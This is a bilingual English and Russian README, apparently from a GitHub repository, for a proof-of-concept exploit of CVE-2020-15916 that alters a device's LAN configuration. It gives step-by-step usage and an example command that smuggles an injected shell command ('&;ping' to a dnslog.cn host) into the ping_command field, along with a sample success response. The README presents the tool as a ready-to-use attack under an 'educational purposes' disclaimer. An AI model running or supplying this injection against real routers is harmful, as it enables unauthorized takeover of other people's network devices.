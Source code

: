 
# EN
**GenLANConfigAttack** -  is a PoC for exploiting **CVE-2020-15916**, a vulnerability that allows unauthorized changes to the LAN configuration of a device.

## Features
- Exploits LAN configuration vulnerability
- Sends malicious payload to alter network settings
- Bypasses security mechanisms for gaining control over the LAN

## How to Use
1. Clone this repository:
   ```bash
   git clone https://github.com/geniuszly/CVE-2020-15916
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Run the exploit:
   ```bash
   python GenLANConfigAttack.py
   ```

### Parameters
- `target_ip`: The IP address of the target device.
- `ping_command`: Command to execute on the target device.
- `session_password`: Password for session access.

## Example
```bash
python GenLANConfigAttack.py --target_ip 192.168.0.1 --session_password gew43t4gtewe4u5u576i7yhggerr6ijtr --ping_command '192.168.0.1 &;ping xt68nd.dnslog.cn'
```

```bash
[Response from 192.168.0.1]: 
{"success":true,"message":"LAN IP configuration updated successfully"}
```

## CVE Reference
This PoC is for the CVE-2020-15916 vulnerability, which allows attackers to alter the LAN configuration of vulnerable devices by exploiting a weak authentication mechanism.

## Disclaimer
This tool is provided for educational purposes only. Use it responsibly and only in environments where you have explicit permission.


# RU
**GenLANConfigAttack** представляет собой PoC для эксплуатации уязвимости **CVE-2020-15916**, которая позволяет несанкционированно изменять конфигурацию LAN устройства.

## Функции
- Использует уязвимость конфигурации LAN
- Отправляет вредоносный payload для изменения настроек сети
- Обходит механизмы безопасности для получения контроля над LAN

## Как использовать
1. Клонируйте репозиторий:
   ```bash
   git clone https://github.com/geniuszly/CVE-2020-15916
   ```
2. Установите зависимости:
   ```bash
   pip install -r requirements.txt
   ```
3. Запустите эксплойт:
   ```bash
   python GenLANConfigAttack.py
   ```

### Параметры
- `target_ip`: IP-адрес целевого устройства.
- `ping_command`: Команда для выполнения на целевом устройстве.
- `session_password`: Пароль для сессионного доступа.

## Пример
```bash
python GenLANConfigAttack.py --target_ip 192.168.0.1 --session_password gew43t4gtewe4u5u576i7yhggerr6ijtr --ping_command '192.168.0.1 &;ping xt68nd.dnslog.cn'
```

```bash
[Ответ от 192.168.0.1]: 
{"success":true,"message":"Конфигурация LAN IP успешно обновлена"}
```
## CVE-ссылка
Этот PoC эксплуатирует уязвимость CVE-2020-15916, которая позволяет злоумышленникам изменять конфигурацию LAN на уязвимых устройствах, используя слабую аутентификацию.

## Отказ от ответственности
Этот инструмент предоставляется исключительно в образовательных целях. Используйте его ответственно и только в тех средах, где у вас есть явное разрешение.
